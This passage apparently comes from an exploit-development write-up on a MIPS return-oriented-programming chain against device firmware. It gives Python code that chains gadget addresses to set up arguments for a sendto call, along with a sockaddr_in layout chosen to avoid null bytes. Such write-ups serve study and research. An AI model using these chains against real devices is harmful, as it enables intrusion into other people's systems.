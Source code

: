 ```
-python
# 0x00166168: move $v1, $v0; lw $ra, 4($sp); move $v0, $v1; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x18f044 + base_address)

# 0x0018f044: move $a2, $v1; lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += b'b' * 0xc
chain += p32(0x1a9f9c + base_address)
```

As you can see, I needed to use _$v1_ as a middle man as there were no useful gadgets that moved _$v0_ into _$a2_. However, we now have one of our _sendto_ arguments in the right place.

### sockaddr_in

```
-c
struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
```

We need to create a _sockaddr_in_ struct containing the port and IP address we would like to send the message to. As we cannot send null bytes, we will need to find some memory that we can copy containing the bytes we need.

To indicate _sin_family_ *AF_INET* in our struct, the first 2 bytes need to be *0x0* and _0x2_. The next 2 bytes specify the port number, so anything works. I found _0x0_ _0x2_ _0x13_ _0x24_ in the firmware image - so we will be sending messages over port 4900.

All we need to do now to have a valid _sockaddr_in_ struct is append the IP address. As most of this is done within the _sendto_ call construction, I will include the gadgets used in the next section.

### sendto

`ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *dest_addr, socklen_t addrlen);`

As you can see above, we have 6 argument to populate, meaning we will be loading values into _$t0_ and _$t1_. Lets start with the easy arguments and get the _sockfd_ we stored earlier into _$a0_:

```
-python
# Load sockfd address into v0
# 0x001a9f9c: lw $v0, ($sp); lw $ra, 0x14($sp); lw $s1, 0x10($sp); lw $s0, 0xc($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += p32(sockfd_addr) # v0
chain += b'b' * 8
chain += p32(0xdeadbeef) # s0
chain += p32(sockaddr_addr) # s1
chain += p32(0x1a46dc + base_address) # ra

# Get the actual value of sockfd into v0
# 0x001a46dc: lw $v0, ($v0); lw $ra, 4($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x1746c8 + base_address)

# Move sockfd to a0 for connect
# 0x001746c8: move $a0, $v0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x11e568 + base_address) # ra
```